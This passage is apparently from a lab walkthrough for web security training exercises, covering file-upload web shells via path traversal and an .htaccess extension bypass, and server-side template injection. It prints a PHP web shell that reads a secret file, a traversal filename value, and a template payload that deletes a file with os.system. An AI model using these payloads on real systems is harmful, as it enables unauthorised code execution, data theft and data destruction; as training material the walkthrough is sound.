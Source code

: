 - In Burp Suite, go to Proxy > HTTP History and find the `POST /my-account/avatar` request and send this request to Repeater.

- Change `filename="exploit.jpg"` to `filename="..%2fexploit.php"` and send request.

- In Burp Suite, go to `Proxy` > `HTTP History` and find the `GET /my-account` request and send this request to Repeater.

- Change `GET /my-account` to `GET /files/exploit.php`, send request and confirm that Carlos’s secret is returned in the response.

- Submit the secret to complete the lab.

#### 12) Web shell upload via extension blacklist bypass

- **Log in** using `wiener:peter`.

- **Upload an images/image** as your avatar and intercept the **POST /my-account/avatar** request in Burp Suite.

- **Create a PHP file** (`exploit.php`) with the content:
	```php
	<?php echo file_get_contents('/home/carlos/secret'); ?>
	```

- Modify the upload request in Burp:
	- Change `filename` to `.htaccess`.
	- Set `Content-Type` to `text/plain`.
	- Replace file content with:
	```apache
	AddType application/x-httpd-php .l33t
	```
	- Send the request to upload the `.htaccess` file.

- Change `exploit.php` to `exploit.l33t` and upload your PHP script with this new extension.

- In Burp, send a **GET request** to `/files/avatars/exploit.l33t` to execute the script.

- Extract Carlos's secret from the response and submit it to solve the lab.

#### 13) Basic server-side template injection (code context)

- Log in using the provided credentials (`wiener:peter`) and post a comment on any blog post.

- Go to "My account" and change the author display setting.

- Intercept the POST request to `/my-account/change-blog-post-author-display` in Burp.

- Modify the `blog-post-author-display` parameter to test for injection: `user.name}}{{10+10}}`.

- Reload the page with your comment. If `20` appears, the vulnerability exists.

- Prepare a payload to delete the file: 
	```python
	{% import os %}{{ os.system('rm /home/carlos/morale.txt') }}
	```

- URL-encode the payload:
	```perl
	user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
	```
